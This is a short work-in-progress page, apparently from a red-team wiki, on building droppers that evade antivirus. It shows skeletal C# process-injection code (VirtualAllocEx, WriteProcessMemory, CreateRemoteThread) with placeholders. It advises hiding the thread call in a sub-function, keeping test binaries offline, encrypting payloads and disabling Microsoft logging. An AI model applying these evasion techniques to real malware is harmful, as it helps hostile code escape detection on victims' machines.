 # 🛠️ Dropper

> [!WARNING]
> This is a work-in-progress. It's indicated with the 🛠️ emoji in the page name or in the category name. Wanna help? Please reach out to me: [@_nwodtuhs](https://twitter.com/_nwodtuhs)

As for the loader, it is also possible to make a simple one, but the more complex it is, the more likely it is that the anti-virus will not see it

Knowing that an anti-virus compares the signature of our program and the signature of the functions with those of the malware, it is up to the attacker to use his imagination to disguise his program.

In the example below, the anti-virus will raise an alert:

```cpp
static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}
```

But, if a sub function is added to create a thread as follow:

```cpp
static void CRT()
{
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}

static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 CRT()
}
```

By using the previous source code the anti-virus will have more difficulty to understand what is happening. The Russian doll technique can be a good trick to hide a malicious function.

> [!CAUTION]
> The fact of compiling several times will not give us a new signature, only the modification of the code has an impact

> [!CAUTION]
> Once the binary is ready to be executed, access to the internet should be cut in the test environment in order not to send the signature of the bypass to Microsoft or to the editor.

To optimize the probability to bypass the protections we will have to combine several techniques, for example encrypt the active load, de-activate Microsoft logs or choose a special way to inject the virus (cf [process injection](process-injection.md)). 
